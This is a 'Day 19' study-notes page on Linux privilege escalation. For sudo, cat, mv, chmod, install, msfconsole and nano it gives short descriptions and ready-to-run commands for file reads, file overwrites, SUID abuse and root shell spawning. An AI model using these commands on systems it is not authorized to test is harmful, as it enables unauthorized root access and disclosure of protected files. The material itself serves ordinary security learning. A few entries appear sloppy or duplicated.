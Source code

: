 
# ♦ Day 19
</br>
</br>

## ◙ ***Privillage Escalation with comman commands***
 </br>
 
# ♦ `Sudo` : 
   ⇨  If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
</br>
#### Command:

      sudo sudo /bin/sh

   </br>
   </br>

### ♦ `cat` :  

   ⇨  Description: The `cat` command reads data from files and can be used to do privileged reads or disclose files outside a restricted file system. If it has the SUID bit set, it can escalate privileges.
</br>
#### Command: 

   • File Read :

    LFILE=file_to_read
    cat "$LFILE"

   • SUID :

    sudo install -m =xs $(which cat) .

    LFILE=file_to_read
    ./cat "$LFILE"

   • Sudo :

    LFILE=file_to_read
    sudo cat "$LFILE"


# ♦ `mv` : 
   ⇨  The `mv` command can move files from restricted file systems or with elevated privileges. If it has the SUID bit set, it can escalate privileges.


#### Command:

   • SUID :
   
   ```sh
  sudo install -m =xs $(which mv) .

  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  ./mv $TF $LFILE
  ```
• Sudo:
   ```sh
  LFILE=file_to_write
  TF=$(mktemp)
  echo "DATA" > $TF
  sudo mv $TF $LFILE
```

### ♦ `chmod` :
   ⇨ The `chmod` command can change file permissions with elevated privileges. If it has the SUID bit set, it can escalate privileges.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which chmod) .

  LFILE=file_to_change
  ./chmod 6777 $LFILE
  ```
• Sudo:
  ```sh
  LFILE=file_to_change
  sudo chmod 6777 $LFILE
  ```

### ♦ `install` :
     The `install` command can change permissions and execute a copy of the file with elevated privileges. If it has the SUID bit set, it can escalate privileges.

**Commands:**
• SUID:
  ```sh
  sudo install -m =xs $(which install) .

  LFILE=file_to_change
  TF=$(mktemp)
  ./install -m 6777 $LFILE $TF
  ```
• Sudo:
  ```sh
  LFILE=file_to_change
  TF=$(mktemp)
  sudo install -m 6777 $LFILE $TF
  ```

### ♦ `msfconsole` :
   ⇨ The `msfconsole` can spawn a Ruby interpreter to break out of restricted environments and escalate privileges.

**Commands:**
• Shell:
  ```sh
  sudo msfconsole
  msf6 > irb
  >> system("/bin/sh")
  ```
• Sudo:
  ```sh
  sudo msfconsole
  msf6 > irb
  >> system("/bin/sh")
  ```

### ♦ `nano`
   ⇨ The `nano` text editor can be exploited to spawn a shell with elevated privileges if allowed to run as superuser.

**Commands:**
• Sudo:
  ```sh
  sudo nano
  ```
  - In nano, press `Ctrl+R` then `Ctrl+X`, then type:
  ```sh
  reset; sh 1>&0 2>&0
  ```
